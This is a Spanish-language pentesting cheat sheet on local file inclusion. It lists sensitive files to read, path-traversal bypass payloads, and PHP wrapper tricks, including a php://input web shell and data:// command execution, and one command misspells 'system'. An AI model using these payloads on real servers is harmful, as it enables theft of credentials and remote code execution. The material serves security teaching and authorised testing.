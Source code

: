 ```yaml
---
title: "Local file inclusion LFI"
layout: "single"
category: "Web Pentesting"
slug: "web-pentesting/lfi"
date: "2025-09-30"
---
```


### Local File Inclusion

__La primera premisa si estamos tratando de explotar un LFI y no funciona por "POST", es cambiar a "GET" y viceversa__

#### Ficheros interesantes en LFI
* /etc/passwd
* /etc/shadow
* /var/log/apache2/access.log
* /var/log/httpd/access.log
* /home/$USER/.ssh/id_rsa
* /var/log/mail.log
* var/log/maillog
* /var/mail/helios
* 
#### Indicios que pueda acontecer un LFI
* Cuando al analizar la petición, vemos que apunta a un fichero de sistema, o apunta a algo tipo: *http://127.0.0.1/categories.php*
* Cuando tenemos una url tipo: *?file=filename.txt*
* respuetas del servidor tipo: *Warning: include(/var/www/html/../../etc/passwd): failed to open stream*
* Tenemos directory listing
* Si podemos ver el codigo fuente, buscar funciones tipo: *(`include`, `require`, `file_get_contents`)*

#### Path traversal basics
```bash
#basico
../../etc/passwd

#cuando se omite el "../" en el código
....//....//etc/passwd

# cuando prohibe el "../"
..////..////..../////etc/passwd

# cuando prohibe un fichero concreto
../etc///////passwd
../etc/host?s
../etc/passwd/.

# cuando se concatena una extension .php al final por defecto, hacemos uso de null bytes (versiones antiguas de php por debajo de la 5.3)
../etc/passwd%00
../etc/passwd\0

```

### PHP Wrappers

#### Ver codigo php
Cuando nos concatena al final la extension php, ejemplo tenemos: 
http://ip/index.php?page=curso
pero en realidad estamos accediendo a : http://ip/index.php?page=curso.php

Se pueden utilizar wrappers, para evitar que nos interprete el código php y podriamos ver el contenido de un fichero wpconfig.php de wordpress:
```bash
http://ip/index.php?page=php://filter/convert.base64-encode/resource=curso.php
```

Al ver el codigo fuente, vemos en alguna parte del codigo, un chorro de caracteres en base64 que podemos decodificar.

#### Ejecutar codigo
##### Metodo 1
```bash
http://ip/index.php?page=expect://whoami
```
##### Metodo 2
Interceptando petición por burpsuite, y cambiando el método a POST
debemos meter el php://input,  algo así:
```bash
POST /?page=php://input HTTP/1.1

# abajo de toda la cabecera
<?php system("whoami"); ?>
```

##### Metodo 2 BIS
De la misma manera por POST:
```bash
POST /?page=data://text/plain;base64,<comando en base64 Y URLENCODEADO> HTTP/1.1
```

Si metemos en base64 urlencodeado el tipico ```bash <?php system($_GET["cmd"]); ?>``` 

y luego:
```bash
POST /?page=data://text/plain;base64, <el codigo anterior urlencodeado y en base64>&cmd=whoami
```

##### Con php filter chain generator
Es un método bastante complejo pero que gracias a un script en python se puede automatizar.
[php filter chain generator GITHUB](https://github.com/synacktiv/php_filter_chain_generator)
```bash
python3 php_filter_chain_generator.py --chain '<?php sytem($_GET["cmd"]); ?>
```

Esto genera una cadena de caracteres hiper larga, que debemos meter en la url: http://ip/index.php?page=<cadena>&cmd=whoami


#### LFI to RCE
Si detectamos un LFI y por casualidad podemos subir ficheros, podriamos subir un fichero malicioso en php
